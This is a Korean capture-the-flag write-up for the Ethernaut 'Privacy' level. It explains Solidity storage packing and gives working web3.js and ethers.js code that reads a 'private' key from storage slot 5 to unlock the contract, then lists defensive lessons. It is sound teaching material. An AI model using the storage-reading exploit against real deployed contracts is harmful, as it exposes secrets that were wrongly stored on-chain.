 # Ethernaut **Privacy** 레벨 Write‑up

> 난이도: ⭐⭐⭐⭐☆ · 목표: `locked` 상태를 `false`로 바꿔 컨트랙트를 **unlock**

---

## 🧩 문제 개요

이 레벨의 핵심은 다음 한 줄입니다.

```solidity
require(_key == bytes16(data[2]));
```

`data`는 `bytes32[3] private` 이지만, **private ≠ 비밀**. 블록체인 스토리지는 누구나 읽을 수 있으므로 `data[2]`를 스토리지에서 직접 읽어 앞 16바이트(`bytes16`)만 꺼내 전달하면 `unlock`에 성공합니다.

---

## 🔍 대상 컨트랙트

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }
}
```

---

## 🧠 스토리지 레이아웃

Solidity는 상태변수를 **32바이트 슬롯**에 순차 저장하며, 작은 타입은 패킹됩니다.

| 슬롯 | 변수                                          | 크기/설명                      |
|:----:|----------------------------------------------|--------------------------------|
| 0    | `locked`                                     | `bool` (1바이트)               |
| 1    | `ID`                                         | `uint256` (32바이트, 단독 슬롯)|
| 2    | `flattening` + `denomination` + `awkwardness`| `1 + 1 + 2` 바이트로 패킹      |
| 3    | `data[0]`                                    | `bytes32`                      |
| 4    | `data[1]`                                    | `bytes32`                      |
| 5    | `data[2]` 👉 **목표 슬롯**                   | `bytes32`                      |

> 따라서 `getStorageAt(instance, 5)` 로 `data[2]` 값을 얻을 수 있습니다.

---

## 🚀 익스플로잇 절차

### 1) 스토리지에서 키 읽기 (web3.js)

```javascript
// 인스턴스 주소
const instance = "0xYourInstanceAddress";

// slot 5 = data[2] (32바이트)
const slot5 = await web3.eth.getStorageAt(instance, 5);

// unlock에는 bytes16이 필요 → 앞 16바이트(= 32 hex chars)만 사용
const key16 = slot5.slice(0, 34); // '0x' + 32 hex = 16 bytes
console.log("key16 =", key16);     // 예) 0x7c4132...941f
```

### 2) `unlock(bytes16)` 호출 (web3.js)

```javascript
const dataCalldata = web3.eth.abi.encodeFunctionCall({
  name: "unlock",
  type: "function",
  inputs: [{ name: "_key", type: "bytes16" }],
}, [key16]);

await web3.eth.sendTransaction({
  from: player,       // 플레이어 주소
  to:   instance,     // 컨트랙트 주소
  data: dataCalldata, // 인코딩된 호출 데이터
});
```

### 3) 결과 확인

```javascript
// 슬롯0 전체를 직접 보거나
const slot0 = await web3.eth.getStorageAt(instance, 0);
console.log("slot0 =", slot0);

// 혹은 public 변수로 확인
const abi = ["function locked() view returns (bool)"];
const c = new ethers.Contract(instance, abi, provider);
console.log("locked =", await c.locked()); // false면 성공
```

---

## 🧾 ethers.js 버전 (대안)

```javascript
await import("https://cdnjs.cloudflare.com/ajax/libs/ethers/5.7.2/ethers.umd.min.js");
const provider = new ethers.providers.Web3Provider(window.ethereum);
await provider.send("eth_requestAccounts", []);
const signer = provider.getSigner();

const instance = "0xYourInstanceAddress";

// slot5 읽기
const slot5 = await provider.getStorageAt(instance, 5);

// bytes16로 잘라 쓰기
const key16 = slot5.slice(0, 34);

// 호출
const abi = ["function unlock(bytes16 _key)"];
const privacy = new ethers.Contract(instance, abi, signer);
await (await privacy.unlock(key16)).wait();

// 확인
const viewAbi = ["function locked() view returns (bool)"];
const viewC = new ethers.Contract(instance, viewAbi, provider);
console.log("locked =", await viewC.locked());
```

---

## ⚡ 핵심 포인트 정리

- **private ≠ secret**: `private`는 *다른 컨트랙트에서의 직접 접근*만 막습니다. 체인 외부에서 스토리지는 누구나 읽을 수 있습니다.
- **bytes 캐스팅**: `bytes16(data[2])`는 **상위 16바이트**만 비교하므로, 32바이트 슬롯에서 **앞 16바이트**만 추출하면 됩니다.
- **패킹 주의**: 작은 정수 타입들은 같은 슬롯에 패킹됩니다. 배열/매핑은 규칙적으로 슬롯이 배정됩니다.

---

## 🛡️ 보안 교훈

1. **민감정보를 온체인에 평문 저장 금지**
   ```solidity
   // ❌ 위험
   bytes32 private apiKey;
   string  private password;
   ```

2. **커밋-리빌(Commit‑Reveal)과 같은 설계 사용**
   ```solidity
   // ✅ 안전 쪽으로
   bytes32 public commitHash; // commit(비밀) → 나중에 reveal(검증)
   ```

3. **오프체인 보관/암호화 고려**
   - 키/비밀은 오프체인, 혹은 암호화/암호증명(ZK) 구조 활용

---

## 📎 부록: 왜 슬롯 5인가?

- `locked`(slot0) → `ID`(slot1) → `flattening/denomination/awkwardness`(slot2, 패킹) → `data` 시작은 **slot3**  
- 고정 길이 `bytes32[3]` 배열은 연속 슬롯 사용: slot3, slot4, **slot5**  
- 따라서 `data[2]`는 **slot5** 에 저장됩니다.

---

## ✅ 체크리스트

- [ ] `getStorageAt(instance, 5)` 로 32바이트 값 확보
- [ ] 앞 16바이트(`0x` + 32 hex)만 추출해 `bytes16` 키 준비
- [ ] `unlock(key16)` 호출
- [ ] `locked == false` 확인 후 Submit

---

### 작성자 메모
- 테스트 중 변수 이름 충돌/스코프 오류를 피하려면 브라우저 콘솔 새로고침 후 실행하거나, 즉시실행 함수(IIFE)로 감싸 실행하면 편리합니다.
